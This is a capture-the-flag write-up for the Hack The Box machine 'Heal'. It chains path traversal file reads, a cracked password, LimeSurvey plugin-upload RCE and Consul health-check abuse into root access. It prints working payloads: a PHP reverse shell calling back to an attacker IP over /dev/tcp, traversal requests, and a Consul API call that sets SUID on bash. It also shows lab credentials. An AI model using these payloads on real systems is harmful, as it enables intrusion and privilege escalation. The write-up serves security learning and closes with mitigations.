



# 🧠 WRITE-UP FOR Heal - HTB

## 0. Overview

- **Target IP:** `10.10.11.46`
- **Machine:** [https://app.hackthebox.com/machines/Heal](https://app.hackthebox.com/machines/Heal)
- **Category:** Linux / Web / LFI / CVE / PrivEsc
- **Difficulty:** Medium
- **Summary:** The target hosted multiple subdomains. An LFI vulnerability on the API subdomain allowed access to sensitive configuration and database files. Credentials were extracted from a SQLite DB and reused to access a LimeSurvey instance vulnerable to authenticated plugin RCE (CVE-2021-44967). Shell access was gained via a malicious plugin. Privilege escalation was achieved by abusing a misconfigured Consul service with root execution privileges.
    
---

## 1. Enumeration & Recon

### 🔹 1.1 Initial Scan (Nmap)

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 🔹 1.2 Subdomains and Web Services

- Identified domains:
    - `heal.htb`
    - `api.heal.htb`
    - `take-survey.heal.htb`
        
- Web applications:
    - `http://heal.htb/resume`: Web app allowing resume creation and PDF export.
    - `http://take-survey.heal.htb/index.php/admin/authentication/sa/login`: LimeSurvey admin login panel.
---

## 2. Vulnerability Identification & Exploitation

### 🔹 2.1 LFI in PDF Download Endpoint
To access the Local File Inclusion (LFI) vulnerability, it was first necessary to register an account via the resume builder app at `http://heal.htb/resume`. Once registered and logged in, the application allowed users to create and export resumes as PDF files.

During the PDF generation process, a request was made to the backend API hosted on `api.heal.htb`. This API endpoint handled the actual file retrieval based on a `filename` parameter.

By intercepting this request using a proxy like Burp Suite, and modifying the `filename` parameter, it was possible to perform a path traversal and read arbitrary files from the server.

Importantly, the API required an Authorization header containing a valid Bearer token issued after login. Without this token, the LFI request would be denied.

The resume creation app on `heal.htb` exported PDFs using the API endpoint:
```http
GET /download?filename=../../../../../../../etc/passwd HTTP/1.1
Host: api.heal.htb
Authorization: Bearer <JWT>
```
This allowed reading arbitrary files from the filesystem.

### 🔹 2.2 Sensitive Configurations Leaked
Extracted files using LFI:
- `/etc/nginx/sites-enabled/*.conf` → Revealed reverse proxy setup for services on `localhost:3000` and `3001`
- `../../config/database.yml` → Revealed SQLite DB paths:
    - `storage/development.sqlite3`
    - `storage/test.sqlite3`
    
Downloaded the databases:
```bash
curl -H "Authorization: Bearer <JWT>" \
  -o dev.sqlite3 "http://api.heal.htb/download?filename=../../storage/development.sqlite3"
```

### 🔹 2.3 User Credential Extraction
Opened `dev.sqlite3` and extracted credentials:
```bash
sqlite3 dev.sqlite3
sqlite> select * from users;
1|ralph@heal.htb|$2a$12$dUZ/O7...|...|Administrator|ralph|1
```
Password cracked via rockyou: `147258369`

### 🔹 2.4 LimeSurvey RCE (CVE-2021-44967)
The instance was running **LimeSurvey Community Edition Version 6.6**, which is affected by **CVE-2021-44967**. This vulnerability allows authenticated administrators to upload a plugin containing executable PHP code, which can lead to Remote Code Execution (RCE).

More information:
- https://ine.com/blog/cve-2021-44967-limesurvey-rce
- https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE

Logged in to LimeSurvey with `ralph@heal.htb:147258369`
http://take-survey.heal.htb/index.php/admin/authentication/sa/login

To exploit the vulnerability, a malicious plugin was created consisting of two files:
**`config.xml`**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
  <metadata>
    <name>pwned</name>
    <type>plugin</type>
    <version>6.6.4</version>
    <author>pwned</author>
    <description><![CDATA[Author : pwned]]></description>
  </metadata>
  <compatibility>
    <version>6.0</version>
    <version>5.0</version>
    <version>4.0</version>
  </compatibility>
</config>
```
**`revshell.php`**
```php
<?php
	// Replace with your attacker's IP and listener port
	// Start a listener using: nc -lvnp 9001
	exec("bash -c 'bash -i >& /dev/tcp/10.10.14.23/9001 0>&1'");
?>
```

Zipped both into a plugin package:
```bash
zip -r pwned.zip config.xml revshell.php
```

Then accessed the plugin manager at:
```
http://take-survey.heal.htb/index.php/admin/pluginmanager/sa/index
```
Used the **"Upload & Install"** button to upload the `pwned.zip` plugin.

After uploading, the plugin appeared in the plugin list and was manually **activated**.


Once active, the reverse shell script was executed by visiting: http://take-survey.heal.htb/upload/plugins/pwned/revshell.php
Established a reverse shell as `www-data`.
```bash
❯ nc -vlp 9001
	listening on [any] 9001 ...
	connect to [10.10.14.23] from heal.htb [10.10.11.46] 55832
	bash: cannot set terminal process group (1007): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@heal:~/limesurvey/upload/plugins/pwned$ 
```

---

## 3. Post-Exploitation / Loot

Extracted DB credentials from LimeSurvey config:
```php
www-data@heal:~ cat application/config/config.php
	return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',
		),
```

Credentials reused to switch to user `ron`:
```bash
su ron
Password: AdmiDi0_pA$$w0rd
```
Accessed `user.txt` flag.

---

## 4. Privilege Escalation

### 🔹 4.1 Enumeration
Identified local Consul service running as root:
```bash
netstat -tulnp 
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 localhost:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8503          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8600          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:postgresql    0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:47972         localhost:postgresql    TIME_WAIT   -        

```
Confirmed via `/etc/systemd/system/consul.service` that service runs as root.
```bash
ron@heabl:/tmp$ cat /etc/systemd/system/consul.service
	[Unit]
	Description=Consul Service Discovery Agent
	After=network-online.target
	Wants=network-online.target
	[Service]
	User=root
	Group=root
	ExecStart=/usr/local/bin/consul agent -server -ui -advertise=127.0.0.1 -
	bind=127.0.0.1 -data-dir=/var/lib/consul -node=consul-01 -config-
	dir=/etc/consul.d
	Restart=on-failure
	ExecReload=/bin/kill --signal HUP $MAINPID
	KillMode=process
	KillSignal=SIGTERM
	SyslogIdentifier=consul
	[Install]
	WantedBy=multi-user.target
```
### 🔹 4.2 Exploitation via Consul API
HashiCorp Consul is a service mesh solution that provides service discovery and health checking. In this machine, Consul was running locally and configured via systemd to run as the root user.

Consul allows dynamic service registration using its HTTP API. One feature, the health check, can execute arbitrary commands defined in the service JSON. This becomes dangerous when:
- The Consul agent API is accessible
- The service runs with elevated privileges (e.g., root)
    
In this case, we abused the `/v1/agent/service/register` endpoint to inject a malicious health check that executes commands as root. Specifically, we registered a fake service with a health check that sets the SUID bit on `/bin/bash`, granting root shell access to any user who runs it.
Used Consul’s agent API to register a malicious health check:
```bash
curl -X PUT http://127.0.0.1:8500/v1/agent/service/register \
  -H "Content-Type: application/json" \
  -d '{
    "Address": "127.0.0.1",
    "check": {
      "Args": ["/bin/bash", "-c", "chmod +s /bin/bash"],
      "interval": "10s",
      "Timeout": "864000s"
    },
    "ID": "pwned",
    "Name": "pwned",
    "Port": 80
  }'
```

Spawned root shell via:

```bash
bash -p
cat /root/root.txt
```

---

## 6. Mitigations

- Validate and sanitize file download parameters to prevent path traversal
- Avoid storing sensitive configuration files in web-accessible locations
- Use hashed and salted passwords with limited reuse across services
- Restrict plugin upload and installation features to trusted users
- Harden Consul configuration to prevent unauthorized API access
- Never run external services as root without isolation or strict validation
